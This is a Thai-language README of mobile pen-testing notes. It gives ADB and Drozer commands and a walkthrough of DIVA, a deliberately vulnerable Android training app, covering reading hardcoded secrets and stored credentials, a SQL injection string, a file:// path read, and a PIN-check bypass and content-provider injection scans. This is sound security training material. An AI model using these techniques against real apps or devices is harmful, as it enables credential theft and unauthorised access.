 # Mobile Application Security
รวมเอกสารและคำสั่งต่างๆ ที่ใช้สำหรับการทำ Mobile Pen-Test

## เอกสารที่เกี่ยวข้อง
* https://mas.owasp.org
* https://mas.owasp.org/MASVS/
* https://mas.owasp.org/MASTG/
* https://mas.owasp.org/checklists/
* https://cheatsheetseries.owasp.org/cheatsheets/Mobile_Application_Security_Cheat_Sheet.html

## Connect to Devices
1. Install ADB Wifi
2. Connect to Device with adb
    * adb connect [IP Address]:5555
    * adb devices -l
    * adb shell
    * adb shell pm list packages
3. Install application
    * adb install [Application Name].apk
    * adb -s emulator-5555 install helloWorld.apk
4. Upload file to device
    * adb push [local file] [remote file]
5. Download file to device
    * adb pull [local file] [remote file]
6. Backup application
    * adb backup <package name>
    * dd if=backup.ab bs=1 skip=24 | python -c "import zlib,sys;sys.stdout.write(zlib.decompress(sys.stdin.read()))" > backup.tar
7. Dump Logging
    * adb logcat -t 20
    * adb shell ps | grep -i diva (get process ID)
    * adb logcat | grep -i [Process ID]

## Diva Writeup
### Insecure Logging
- adb logcat -t 20
- adb ps
- adb logcat | grep [processID]

### Hardcoding Issues – Part 1
- jadx diva.apk
- cd diva/sources/jakhar/aseem/diva
- cat HardCodeActivity.java

### Insecure Data Storage – Part 1
- adb shell
- cd /data/data/jakhar.aseem.diva/shared_pref
- cat jakhar.aseem.diva_preferences.xml

### Insecure Data Storage – Part 2
- adb shell
- cd /data/data/jakhar.aseem.diva/databases
- sqlite3 ids2
- .tables
- select * from myuser;

Insecure Data Storage – Part 3
- cd diva/sources/jakhar/aseem/diva
- cat InsecureDataStorage3Activity.java
- adb shell
- cd /data/data/jakhar.aseem.diva
- cat uinfo...

### Input Validation Issues – Part 1
- 1' OR '1'='1'--

### Input Validation Issues – Part 2
- file:///data/data/jakhar.aseem.diva/uinfo...

### Access Control Issues – Part 1
- cd resources
- cat AndroidManifest.xml
- adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS

### Access Control Issues – Part 2
- dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity --extra boolean check_pin false

### Access Control Issues – Part 3
- dz> run app.provider.finduri jakhar.aseem.diva
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --vertical
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --selection "_id=3"
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "title,note"
- dz> run scanner.provider.injection -a jakhar.aseem.diva
- dz> run scanner.provider.sqltables -a jakhar.aseem.diva
- dz> run scanner.provider.traversal -a jakhar.aseem.diva

## Tools for Static Analysis
- Androwarn (for Android)
    * python androwarn.py -h
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -r html -v 3
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -d -v 3
- QARK (for Android)
    * python qarkMain.py -h
    * python qarkMain.py -p qark/sampleApp/goatdroid/goatdroid.apk   --source=1
- [MobSF](MobSF/Readme.md)
